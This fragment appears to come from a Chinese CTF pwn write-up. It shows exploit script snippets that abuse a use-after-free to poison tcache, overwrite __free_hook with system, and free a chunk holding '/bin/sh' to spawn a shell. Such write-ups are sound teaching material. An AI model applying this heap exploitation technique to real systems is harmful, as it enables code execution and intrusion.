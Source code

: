 [![](assets/1700442753-722d008768c89d3aa70746c2a4d393d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185503-c2ff79b2-8537-1.png)

```plain
free(1)

free(2)
recover(2)
#large bin 大小范围的 chunk 1、2 被释放也会放到 tcache bin 中

edit(2,p64(free_hook))
#利用 uaf 达到任意地址写
```

[![](assets/1700442753-e1e1950b7c599ca91843fe18b08064d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185522-ce795628-8537-1.png)

```plain
add(1,0x450,'\n')
add(2,0x450,'\n')
edit(2,p64(system))
edit(1,b'/bin/sh\x00')
#dbg()
free(1)
```

